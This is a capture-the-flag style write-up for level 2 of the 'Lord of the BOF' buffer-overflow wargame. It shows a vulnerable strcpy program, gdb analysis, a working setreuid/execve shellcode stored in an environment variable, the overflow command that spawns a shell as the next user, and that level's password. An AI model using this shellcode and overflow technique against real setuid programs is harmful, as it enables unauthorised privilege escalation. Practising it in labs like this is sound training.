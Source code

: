 # Level2

## This level's goal 
- LEVEL2 (gremlin -> cobolt) : Small Buffer

***

```
[gremlin@localhost gremlin]$ bash2
[gremlin@localhost gremlin]$ ls -l
total 16
-rwsr-sr-x    1 cobolt   cobolt      11970 Feb 26  2010 cobolt
-rw-r--r--    1 gremlin  gremlin       291 Mar 29  2010 cobolt.c
[gremlin@localhost gremlin]$ cat cobolt.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - cobolt
        - small buffer
*/

int main(int argc, char *argv[])
{
    char buffer[16];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

This level's code seems like level1 but there is the difference of buffer size.

If you use the shell code (ex. 25bytes) will be problem but I will use with env variable I used in level1.

First thing I need is te get information of memory structure.

```
[gremlin@localhost gremlin]$ gdb -q cobolt
(gdb) set disass intel
(gdb) disass main
0x8048433 <main+3>:     sub    %esp,16
0x804845c <main+44>:    lea    %eax,[%ebp-16]
```

The buffer is only ebp-16, so there is no dummy in here.

So, the memory will be buffer(16bytes) + SFP(4bytes) + RET(4bytes).

```
[gremlin@localhost gremlin]$ export EGG=`python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
[gremlin@localhost gremlin]$ echo 'int main() { printf("EGG -> 0x%x\n", getenv("EGG")); } ' > getegg.c
[gremlin@localhost gremlin]$ gcc getegg.c -o getegg
[gremlin@localhost gremlin]$ ./getegg
EGG -> 0xbffffea2
```

Then the payload will be the dummy strings(20bytes, buffer+SFP) + the shell code's address.

```
[gremlin@localhost gremlin]$ ./cobolt `python -c 'print "A"*20+"\xa2\xfe\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAA¢þÿ¿
bash$ id
uid=502(cobolt) gid=501(gremlin) egid=502(cobolt) groups=501(gremlin)
bash$ my-pass
euid = 502
hacking exposed
```
